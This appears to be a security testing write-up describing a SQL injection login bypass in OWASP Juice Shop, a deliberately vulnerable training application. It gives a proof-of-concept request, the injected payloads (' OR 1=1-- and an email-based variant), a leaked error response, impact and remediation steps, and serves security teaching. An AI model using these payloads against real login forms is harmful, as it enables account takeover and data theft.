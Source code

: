 **Category:** A03 – Injection

---
## Overview
During testing of the login functionality in OWASP Juice Shop, a **SQL Injection vulnerability** was discovered.  
This vulnerability allows an attacker to bypass authentication and log in as any user, including the admin, without knowing the correct password.  
It affects both generic login attempts and logins with a known user email.

---
## Proof of Concept

### Vulnerable Request
```http
POST /rest/user/login HTTP/1.1
Host: localhost:3000
Content-Length: 28
Content-Type: application/json
{"email":"'","password":"1"}
```

**Example Request Details:**
- Email field: `'`  
- Password field: `1`  

### Vulnerable SQL Query
```sql
SELECT * FROM Users 
WHERE email = '' OR 1=1--' 
AND password = 'e2f18b8df2f02fdf3891d675acc0035d' 
AND deletedAt IS NULL;
```

**Explanation:**  
- The `' OR 1=1--` injection causes the `WHERE` clause to always evaluate to true.  
- This bypasses authentication, allowing login without valid credentials.

### Login with Known Email
If the attacker knows a valid email, they can also bypass the password check:

```sql
SELECT * FROM Users 
WHERE email = 'bender@juice-sh.op' AND 1=1-- 
AND password = 'e2f18b8df2f02fdf3891d675acc0035d' 
AND deletedAt IS NULL;
```

**Injected Payload:**
```sql
bender@juice-sh.op' AND 1=1--
```

---
### Response Example
```http
HTTP/1.1 500 Internal Server Error
Content-Type: application/json; charset=utf-8
```
```json
{
   "error":{
      "message":"SQLITE_ERROR: near \"c4ca4238a0b923820dcc509a6f75849b\": syntax error",
      "stack":"Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    ...",
      "sql":"SELECT * FROM Users WHERE email = ''' AND password = 'c4ca4238a0b923820dcc509a6f75849b' AND deletedAt IS NULL"
   }
}
```

---
## Impact
- **Authentication bypass:** Attacker can log in as any user without knowing the password.  
- **Admin compromise:** Full administrative access possible.  
- **User account takeover:** Any user's account can be accessed if the email is known.  
- **Data exposure:** Potential access to sensitive user data (emails, roles, tokens).

**Severity:** Critical (CVSS high/critical range)

---
## Recommendations
1. **Use parameterized queries / prepared statements** for all database access.  
2. **Input validation and sanitation** for login fields to reject control characters and SQL metacharacters.  
3. **Limit error feedback:** Do not expose SQL error messages to clients.  
4. **Implement account lockout / throttling** to reduce brute-force attack potential.  
5. **Regular security testing** to detect similar injection vulnerabilities in other endpoints.  


